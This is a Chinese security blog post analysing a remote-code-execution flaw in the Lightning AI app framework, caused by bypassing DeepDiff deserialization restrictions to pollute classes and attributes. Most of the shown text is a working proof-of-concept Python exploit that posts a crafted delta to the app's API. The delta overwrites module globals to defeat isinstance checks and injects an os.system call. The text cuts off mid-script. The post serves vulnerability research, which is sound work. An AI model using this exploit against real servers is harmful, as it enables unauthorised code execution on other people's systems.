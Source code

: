 #  某系统因属性污染导致的RCE漏洞分析   
 黑白之道   2024-11-17 00:38  
  
![](https://mmbiz.qpic.cn/mmbiz_gif/3xxicXNlTXLicwgPqvK8QgwnCr09iaSllrsXJLMkThiaHibEntZKkJiaicEd4ibWQxyn3gtAWbyGqtHVb0qqsHFC9jW3oQ/640?wx_fmt=gif "")  
  
  
前几天在逛huntr的时候，发现一个很有意思的漏洞，他是通过反序列化从而去污染类和属性导致的rce，在作者的描述中大致说明的漏洞的原理，该漏洞是通过绕过`Deepdiff `的反序列化限制，包括绕过魔术方法和白名单绕过，通过魔术方法可以访问其他模块、类和实例，并使用这种任意属性写入，最终导致rce。  
## 1、漏洞介绍  
  
前几天在逛huntr的时候，发现一个很有意思的漏洞，他是通过反序列化从而去污染类和属性导致的rce，在作者的描述中大致说明的漏洞的原理，该漏洞是通过绕过Deepdiff的反序列化限制，包括绕过魔术方法和白名单绕过，通过魔术方法可以访问其他模块、类和实例，并使用这种任意属性写入，最终导致rce。  
> 原文链接：https://huntr.com/bounties/486add92-275e-4a7b-92f9-42d84bc759da  
  
  
这里我将原版的poc稍加进行改造，将Helper class转换后的内容直接写了出来，方便分析。  
```
import requests, time, pickle, pickletools
from collections import namedtuple
from ordered_set import OrderedSet

def send_delta(d):
    requests.post(server_host + '/api/v1/delta', headers={
        'x-lightning-type': '1',
        'x-lightning-session-uuid': '1',
        'x-lightning-session-id': '1'
    }, json={"delta": d})

# Monkey patch OrderedSet reduce to make it easier to pickle
OrderedSet.__reduce__ = lambda self, *args: (OrderedSet, ())

server_host = 'http://127.0.0.1:7501'
command = 'dir'

# this code is injected and ran on the remote host
injected_code = f"__import__('os').system('calc.exe')" + '''import lightning, sysfrom lightning.app.api.request_types import _DeltaRequest, _APIRequestlightning.app.core.app._DeltaRequest = _DeltaRequestfrom lightning.app.structures.dict import Dictlightning.app.structures.Dict = Dictfrom lightning.app.core.flow import LightningFlowlightning.app.core.LightningFlow = LightningFlowLightningFlow._INTERNAL_STATE_VARS = {"_paths", "_layout"}lightning.app.utilities.commands.base._APIRequest = _APIRequestdel sys.modules['lightning.app.utilities.types']'''

bypass_isinstance = OrderedSet

delta = {
    'attribute_added': {
        "root['function']": namedtuple,

        # 绕过_collect_deltas_from_ui_and_work_queues中的isinstance(delta, _DeltaRequest)
        "root['function'].'__globals__'['_sys'].modules['lightning.app'].core.app._DeltaRequest": str,

        # 绕过_process_requests中的isinstance(request, _APIRequest)
        "root['bypass_isinstance']": bypass_isinstance,
        # 将OrderedSet的__instancecheck__设置有内容使其返回true，但不可为可迭代的，否则isinstance会报错
        "root['bypass_isinstance'].'__instancecheck__'": str,
        "root['function'].'__globals__'['_sys'].modules['lightning.app'].utilities.commands.base._APIRequest": bypass_isinstance(),

        # 绕过get_component_by_name中的isinstance(current, LightningDict)，使其能够遍历普通字典
        "root['function'].'__globals__'['_sys'].modules['lightning.app'].structures.Dict": dict,

        # 绕过get_component_by_name中的if not isinstance(child, ComponentTuple):
```